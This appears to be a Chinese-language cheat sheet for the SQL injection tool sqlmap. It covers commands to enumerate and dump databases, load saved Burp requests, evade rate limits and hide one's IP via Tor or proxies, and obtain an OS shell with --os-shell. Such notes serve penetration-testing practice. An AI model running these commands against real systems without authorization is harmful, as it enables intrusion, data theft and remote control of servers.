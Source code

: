 ## 基本语法

```shell
sqlmap -u "url" --dbs #--dbs作用是爆出所有数据库名字

sqlmap -u "url" -p 要测试的参数 -d 数据库类型 -D要测试的数据库名称 -T要测试的表名称 -C 要测试的列名称

```

## 将请求作为文件，指定sqlmap使用

例如需要cookie，或者post值，添加xff头等情况，可以先在burp中保存请求包为一个文件，然后

```shell
sqlmap -r 1.txt --dbs
```

## 常用参数

`-p`参数用于指定注入点，例如，如果您的目标站点是`http://www.example.com/Less-1/?id=1`，则可以使用以下命令来指定注入点：`sqlmap -u "http://www.example.com/Less-1/?id=1" -p id`

```bash
-u             #指定url
-r             #指定文件
-p             #指定注入点
--cookie       #指定cookie
--dbs          #注入库名
-D            #指定库名
--tables       #注入表名
-T             #指定表名
--columns      #注入列名
-C             #指定列名
--dump         #注入数据
--dump-all     #掉库（删库）
```

## 避免429 too many requests

1. 使用代理服务器：使用代理服务器可以隐藏您的真实IP地址，从而避免被检测到。您可以使用Tor或其他代理服务器来隐藏您的IP地址。
2. 调整请求速率：您可以通过调整请求速率来减少请求的数量。这可以通过在命令行中使用`--delay`选项来实现。例如，使用`--delay=1选项将在每个请求之间添加1秒的延迟。
3. 调整线程数：您可以通过调整线程数来减少请求的数量。这可以通过在命令行中使用`--threads`选项来实现。例如，使用`--threads=1`选项将只使用一个线程进行扫描。



## 利用sqlmap获取shell权限

正常的sqlmap语句后跟上 `--is-dba`

可以判断当前用户是不是dba，有没有权限

然后再加上`--os-shell`

获取shell